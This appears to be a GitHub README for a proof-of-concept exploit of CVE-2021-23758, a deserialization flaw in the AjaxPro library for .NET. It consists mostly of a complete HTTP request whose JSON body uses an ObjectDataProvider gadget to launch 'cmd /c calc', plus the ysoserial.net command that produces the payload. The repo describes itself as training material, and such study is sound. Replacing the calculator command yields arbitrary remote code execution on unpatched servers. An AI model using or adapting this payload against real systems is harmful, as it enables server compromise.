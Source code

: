 # CVE-2021-23758-POC


this repo has been created for training on the vulnerability in the ajaxpro. disclosed with the ID number CVE-2021-23758.


# POC 

```
POST /ajaxpro/CVE_2021_23758_POC.demo,CVE_2021_23758.ashx HTTP/2
Host: localhost:44375
Content-Length: 567
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
X-Ajaxpro-Method: TestAjax
Content-Type: text/plain; charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://localhost:44375
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://localhost:44375/demo
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7

{"obj":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd",
			"Arguments":"/c calc"
        }
    }
}}
```

```
ysoserial-net -g ObjectDataProvider -f JavaScriptSerializer -c "calc" -o raw
```

![Back-Code](img/repo.jpg?raw=true "B-Code")

![Code](img/code.jpg?raw=true "Code")

![Exploit](img/calc.jpg?raw=true "Calc")


# Reference
 * [2021-23758 Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-23758)
 * [michaelschwarz/Ajax.NET-Professional](https://github.com/michaelschwarz/Ajax.NET-Professional)
 * [Details](https://mp.weixin.qq.com/s/7y-iyMMZAoN4B2dGvCFvXg)
 * [sirifu4k1 tweet](https://twitter.com/sirifu4k1/status/1470647490546393089)
 * [ysoserial](https://github.com/pwntester/ysoserial.net)


